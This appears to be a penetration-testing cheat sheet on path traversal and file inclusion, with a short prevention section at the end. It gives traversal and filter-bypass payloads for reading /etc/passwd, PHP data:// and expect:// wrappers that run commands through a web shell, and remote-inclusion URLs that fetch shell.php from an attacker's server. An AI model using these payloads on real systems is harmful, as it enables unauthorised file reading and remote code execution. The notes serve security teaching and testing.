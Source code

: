 ## Methodology

- [ ] Find for where file is being retrieved, understand the application technology and system (Windows or Linux).
- [ ] Scanner + Ffuf with LFI payloads
- [ ] Test functionality like file-upload which could be chain with Path-Traversal.
- [ ] Test with ../../.. first, see if this will retrieve the whole directory.
- [ ] Test with retrieving a file ../../../etc/passwd.
- [ ] Test with single/double encoded sequence and blacklist bypasses.
- [ ] Test Null-Byte extension and validation with start path

Reading files on the server that is running on the application. Typically files in web application are stored in the `/var/www/html` path. An attacker can append `../../../etc/passwd` to read the `/etc/passwd` file.

### Automation
(FFuf) LFI Detection
```bash
ffuf -u 'https://0a9f00ff03e566cc80584e6400250096.web-security-academy.net/image?filename=FUZZ' -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -c -e .jpg
```
### Local File Inclusion (LFI)

### Stripping Path Traversal Sequence

A protection against path traversal is `../../` sequence being stripped by web application. These can possibly be bypassed by:

- Absolute Path from filesystem root: `/etc/passwd` (no `../../../` sequence)
- Nested traversal sequence: `....//....//....//`
- Parameter of `multipart/form-data` request, traversal sequence maybe encoded `../` → `%2e%2e%2f` or double encoded `%252e%252e%252f` . **Non-standard encoding**, `..%c0%af` or `..%ef%bc%8f` may work

### Validation of Start Path

Some application may require user-supplied filename to start with base folder such as `/var/www/html` , so sequences `/var/www/html/../../../etc/passwd` may work.

### Null-Byte Bypass Extension

Some user-supplied filename require to end with expected file extension. This can be done with Null-byte. `filename=../../../etc/passwd%00.png`

- There can be other null-bytes similar to file upload vulnerabilities.

### Second-Order LFI

An example of a Second-Order LFI is when an application allows us to download avatar through URL like /profile/$username/avatar.png). A malicious username such as ../../../etc/passwd may be able to pull another local file on the server instead of the avatar.

### PHP Filters

Allow us to access different I/O streams at the application level, like standard input/output, file descriptors and memory streams. Useful for File Inclusion & XXE attacks.

- PHP filter are a type of PHP wrappers, where we can pass different types of input and have it filtered by the filter we specify.

### Reading Source Code of LFI

- PHP filter wrapper to extract source code (here we are extracting index.php source code).

```xml
php://filter/read=convert.base64-encode/resource=index.php
```

Check php.ini file (/etc/php/X.Y/apache2/php.ini where X.Y is the installed version of PHP for **allowed_url_include** (required for the next attacks).

### RCE from LFI

- PHP data wrapper to include external data, including PHP code.

```bash
echo '<?php system($_GET["cmd"]); ?>' | base64

PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==
```

```php
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==&cmd=whoami
```

- PHP expect wrapper to run command through URL streams. Need to check php.ini if **extension=expect**

```php
expect://id
```

### Remote File Inclusion (RFI)

LFI parameters may introduce SSRF vulnerabilities, which testing for SSRF is the first step for RFI. After testing for SSRF, can attempt to call other domains which contain other files which can be executed.

### HTTP

- Host a HTTP web server containing malicious payload.

```
http://<SERVER_IP>:<PORT>/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id
```

### FTP

- Host a FTP server containing malicious payload.

```
sudo python -m pyftpdlib -p 21

http://<SERVER_IP>:<PORT>/index.php?language=ftp://<OUR_IP>/shell.php&cmd=id
```

### Prevention

- Avoid passing user-supplied input in API, application function can be rewritten to deliver the same behavior.
- Validate user-input, using whitelist or that input only contain permitted content like alphanumeric characters only.
- After validation append user-input to base directory and use a platform filesystem API to canonized the path. Verify that canonicalized path starts with expected base directory.